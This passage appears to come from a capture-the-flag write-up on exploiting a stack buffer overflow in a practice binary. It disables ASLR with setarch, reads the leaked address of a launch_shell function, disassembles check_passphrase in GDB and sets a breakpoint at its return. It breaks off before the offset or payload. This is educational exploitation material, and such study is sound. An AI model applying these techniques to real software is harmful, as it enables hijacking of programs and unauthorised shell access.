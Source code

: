 ### The exploit

#### Finding the address
Finding the address is actually really easy, since the program already prints the address. Don't forget to run the program without `ASLR` (address randomization) to get a "fixed" address of `launch_shell`:
```bash
setarch $(uname -m) -R ./functions aaa
```
This gives us as output
```
* [DEBUG] Your input: aaa
* [DEBUG] The function launch_shell is at 0x5555555548e4
Wrong password. This incident will be reported. https://xkcd.com/838/
```
So we know that `launch_shell` is at `0x5555555548e4`

#### Computing the offset to the return pointer
For this part we are going to use `GDB`, so that we can perfectly compute the offset, rather than just guessing. We start up GDB using
```
gdb functions
```
note that we do not need to use `setarch` since `GDB` disables `ASLR` by default. We can do
```
info functions
```
to get of list of the functions, no suprises here:
```
int check_passphrase(char *);
void launch_shell();
int main(int, char **);
```
The function that we are interested in is `check_passphrase`, since that is where the buffer overflow occurs. So we do
```
disas check_passphrase
```
where `disas` stands for disassemble to get the assembly code of `check_passphrase`
```
0x00000000000008a0 <+0>:	push   %rbp
0x00000000000008a1 <+1>:	mov    %rsp,%rbp
0x00000000000008a4 <+4>:	add    $0xffffffffffffff80,%rsp
0x00000000000008a8 <+8>:	mov    %rdi,-0x78(%rbp)
0x00000000000008ac <+12>:	mov    -0x78(%rbp),%rdx
0x00000000000008b0 <+16>:	lea    -0x70(%rbp),%rax
0x00000000000008b4 <+20>:	mov    %rdx,%rsi
0x00000000000008b7 <+23>:	mov    %rax,%rdi
0x00000000000008ba <+26>:	callq  0x6f0 <strcpy@plt>
0x00000000000008bf <+31>:	mov    -0x78(%rbp),%rax
0x00000000000008c3 <+35>:	lea    0x18e(%rip),%rsi        # 0xa58
0x00000000000008ca <+42>:	mov    %rax,%rdi
0x00000000000008cd <+45>:	callq  0x730 <strcmp@plt>
0x00000000000008d2 <+50>:	test   %eax,%eax
0x00000000000008d4 <+52>:	jne    0x8dd <check_passphrase+61>
0x00000000000008d6 <+54>:	mov    $0x1,%eax
0x00000000000008db <+59>:	jmp    0x8e2 <check_passphrase+66>
0x00000000000008dd <+61>:	mov    $0x0,%eax
0x00000000000008e2 <+66>:	leaveq
0x00000000000008e3 <+67>:	retq
```
We don't really have to look at the assembly, since we already have the source code. But we can use the information to set a breakpoint at the end of check_passphrase, since that is when the `return pointer` is used to determine where to jump to.
```
break *check_passphrase+67
```